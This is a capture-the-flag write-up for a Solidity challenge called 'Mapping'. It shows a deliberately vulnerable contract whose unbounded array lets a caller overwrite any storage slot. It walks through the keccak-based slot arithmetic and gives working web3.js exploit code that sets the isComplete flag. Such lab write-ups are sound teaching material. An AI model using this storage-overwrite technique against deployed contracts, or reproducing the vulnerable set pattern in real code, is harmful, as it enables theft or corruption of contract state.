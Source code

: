 # 12. Mapping

Who needs mappings? I’ve created a contract that can store key/value pairs using just an array.

## Target contract

```solidity
pragma solidity ^0.4.21;

contract MappingChallenge {
    bool public isComplete;
    uint256[] map;

    function set(uint256 key, uint256 value) public {
        // Expand dynamic array as needed
        if (map.length <= key) {
            map.length = key + 1;
        }

        map[key] = value;
    }

    function get(uint256 key) public view returns (uint256) {
        return map[key];
    }
}
```

## Vulnerability

Never write a function similar to `set`. It's a huge liability risk, as you will see such badly written code allows any attacker to overwrite any storage slot as long as you are aware of how storage arrays work. For this challenge, we need to overwrite storage slot 0 to make `isComplete` equal to `true`.

So let's explain that first : storage slot 0 holds an 8 bit boolean value alongside 248 unused bits, storage slot 1 holds the size of the `map` array. Following this logic one might think that the `map` elements are stored at slot 2, 3, etc.. but that is not how it works. In solidity, storage arrays elements are stored sequentially starting from slot `keccak256(slot_of_array_size)`. In our case that is : `keccak256(1)`.

It turns out that this value is : `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`.

We can make sure of that by 1) reading that storage slot. 2) Writing to `map[0]` through the `set` function. 3) reading that storage slot again :

1 ) Reading storage slot :
```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";
const storageSlot = web3.utils.soliditySha3({ t: "uint256", v: "1" });
const storageSlotvalue = await web3.eth.getStorageAt(challengeContract,storageSlot);

console.log(storageSlotvalue);
// 0x0000000000000000000000000000000000000000000000000000000000000000
```

2 ) Writing `1` to `map[0]` :
```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "set",
    type: "function",
    inputs: [
      { type: "uint256", name: "key" },
      { type: "uint256", name: "value" },
    ],
  },
  [0, 1]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

3 ) Reading storage slot :
```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";
const storageSlot = web3.utils.soliditySha3({ t: "uint256", v: "1" });
const storageSlotvalue = await web3.eth.getStorageAt(challengeContract,storageSlot);

console.log(storageSlotvalue);
// 0x0000000000000000000000000000000000000000000000000000000000000001
```

Alright, so now that we understand how to take advantage of that vulnerability let's use it to solve the challenge. We must write to storage slot 0 and we know that `map[0]` is at storage slot `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`, since the index is of type `uint256` we need to provide an index that will be stored to storage slot 0, meaning that we must find the number `x` where `0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + x == 2^256`. Given that a `uint256` can only store values up to `2^256 - 1` , reaching `2^256` overflows and loop backs to 0 which is exactly what we want.

We can find `x` quite easily with :

```js
const storageSlot = new web3.utils.BN(
  "b10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6",
  16
); // slot of map[0]
const overflowBound = new web3.utils.BN(
  "10000000000000000000000000000000000000000000000000000000000000000",
  16
); // 2 ^ 256
const x = overflowBound.sub(storageSlot);

console.log(web3.utils.numberToHex(x));
// 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
```

Now that we have our index, all we need is to make `isComplete` equal `true` at storage slot 0. Thus, we need to write `0x0000000000000000000000000000000000000000000000000000000000000001` to `map[0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a]` :

```js
const challengeContract = "0x7D15477db1B38E407D0EC7A8f129bE173CC3C274";
const index = "0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a";
const value = "0x0000000000000000000000000000000000000000000000000000000000000001";

const data = web3.eth.abi.encodeFunctionCall(
  {
    name: "set",
    type: "function",
    inputs: [
      { type: "uint256", name: "key" },
      { type: "uint256", name: "value" },
    ],
  },
  [index, value]
);

await web3.eth.sendTransaction({
  from: accounts[0],
  to: challengeContract,
  data: data,
});
```

You can submit the challenge now !
